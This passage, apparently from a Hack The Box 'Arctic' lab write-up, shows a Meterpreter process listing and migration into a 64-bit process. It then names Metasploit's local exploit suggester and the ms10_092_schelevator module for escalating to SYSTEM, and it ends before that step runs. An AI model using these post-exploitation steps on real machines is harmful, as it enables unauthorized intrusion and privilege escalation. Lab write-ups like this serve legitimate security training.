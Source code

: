 ```
 1456  480   svchost.exe
 1492  480   VGAuthService.exe
 1752  480   vmtoolsd.exe
 1776  480   ManagementAgentHost.exe
 1996  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 2036  604   WmiPrvSE.exe
 2128  480   dllhost.exe
 2240  1312  k2server.exe
 2248  328   conhost.exe
 2352  1124  powershell.exe           x86   0        ARCTIC\tolis  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 2444  1312  k2index.exe
 2460  328   conhost.exe
 2896  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 2964  480   svchost.exe
 3092  412   powershell.exe           x64   0        ARCTIC\tolis  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 3144  480   msdtc.exe
 3404  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 3548  1124  powershell.exe           x86   0        ARCTIC\tolis  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 3776  480   sppsvc.exe
 3880  1176  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe
 3912  1196  powershell.exe           x64   0        ARCTIC\tolis  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 3920  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe

meterpreter > migrate 3920
[*] Migrating from 1124 to 3920...
[*] Migration completed successfully.
```

Let's check `sysinfo` again:

![](/assets/img/htb/machines/windows/easy/arctic/sysinfo2.png)

We're good! Hit `Ctrl+Z` to background the session and use `post/multi/recon/local_exploit_suggester`.

We can use `exploit/windows/local/ms10_092_schelevator` to escalate and get **SYSTEM**:
